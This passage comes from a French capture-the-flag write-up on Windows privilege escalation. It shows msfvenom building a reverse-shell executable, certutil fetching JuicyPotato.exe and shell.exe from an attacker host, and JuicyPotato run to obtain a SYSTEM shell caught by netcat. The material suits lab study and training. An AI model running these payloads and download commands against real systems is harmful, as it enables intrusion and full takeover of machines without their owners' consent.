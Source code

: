 ```terminal
└─# msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=1338 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

- Puis je telecharge mon payload et mon `JuicyPotato.exe` dans la machine et dans le meme repertoire


```terminal
C:\Users\tolis\AppData\Local\Temp>certutil -urlcache -split -f http://10.10.16.5/JuicyPotato.exe JuicyPotato.exe
certutil -urlcache -split -f http://10.10.16.5/JuicyPotato.exe JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\AppData\Local\Temp>



C:\Users\tolis\AppData\Local\Temp>certutil -urlcache -split -f http://10.10.16.5/shell.exe shell.exe
certutil -urlcache -split -f http://10.10.16.5/shell.exe shell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

```

Et avec toutes ces fichiers reunie j'ouvre mon `netcat` et j'execute `JuicyPotato` avec mon payload `shell.exe`

```terminal
C:\Users\tolis\AppData\Local\Temp>.\JuicyPotato.exe -t * -p .\shell.exe -l 443
.\JuicyPotato.exe -t * -p .\shell.exe -l 443
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 443
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\tolis\AppData\Local\Temp>
```

- Dans mon Listner de `netcat`, je recois la connexion en tant que `nt authority\system`

![nc](https://i.ibb.co/kDcDGxq/b5.png)
